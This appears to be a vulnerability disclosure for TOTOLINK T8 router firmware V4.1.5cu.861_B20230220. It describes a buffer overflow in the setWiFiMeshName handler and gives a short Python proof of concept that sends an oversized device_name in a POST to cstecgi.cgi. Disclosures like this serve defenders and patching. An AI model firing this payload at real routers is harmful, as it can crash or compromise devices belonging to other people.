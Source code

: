 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWiFiMeshName` function. The `v3` variable receives the `device_name` parameter from a POST request. However, since the user can control the input of `device_name`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240902134405494](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902134405494.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiMeshName",
"device_name":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
